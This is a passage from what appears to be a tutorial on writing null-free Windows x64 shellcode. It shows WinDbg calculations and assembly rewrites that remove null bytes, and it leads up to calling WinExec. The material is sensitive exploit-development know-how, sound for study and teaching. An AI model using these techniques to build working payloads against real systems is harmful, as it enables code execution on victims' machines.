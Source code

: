 The first identified instruction containing nullbytes is `sub rsp, 0x208`.

```
0:003> ? 0x208
Evaluate expression: 520 = 00000000`00000208
```

The same technique as mentioned above is used. First, it is verified that `-0x208` does not contain a nullbyte.

```
0:003> ? -0x208
Evaluate expression: -520 = ffffffff`fffffdf8
```
Therefore the instruction is modified to `add rsp, 0xfffffffffffffdf8`.

The next problem encountered is the instruction `mov edx, [rbx+0x88];"`.

```
0:003> ? 0x88
Evaluate expression: 136 = 00000000`00000088
```

In this case, our approach involves selecting a larger initial value that, when bit-shifted, achieves the desired offset, thereby allowing us to trim off any unnecessary characters. Therefore, a left-shift of the initial value with 20 bits (`0x14`) will be performed.

```
0:003> ? 0x88 << 0x14
Evaluate expression: 142606336 = 00000000`08800000
```

Then, a bitwise OR with `0xFFFFF` is applied to fill the lower bits, modifying the byte pattern without affecting the shifted value:

```
0:003> ? (00000000`08800000|0xFFFFF)
Evaluate expression: 143654911 = 00000000`088fffff
```

Finally, the operation is confirmed by shifting the same 20 bits (`0x14`) to the right, ensuring that the significant bits return to the original value:

```
0:003> ? 0x00000000`088fffff >> 14
Evaluate expression: 136 = 00000000`00000088
```

This is incorporated into our code as follows:

```
xor r12, r12;              # Zero out r12 to start fresh
add r12, 0x88FFFFF;        # Load r12 with a large number
shr r12, 0x14;             # Right-shift r12 by 20 bits to get 0x88
mov edx, [rbx+r12];        # Move the value at rbx+0x88 into edx
```

The last problem we ran into is the following step when trying to move *WinExec* string to the `rax` registry.

<img src="{{ site.url }}{{ site.baseurl }}/images/2024-05-01_19-40.png" alt="">
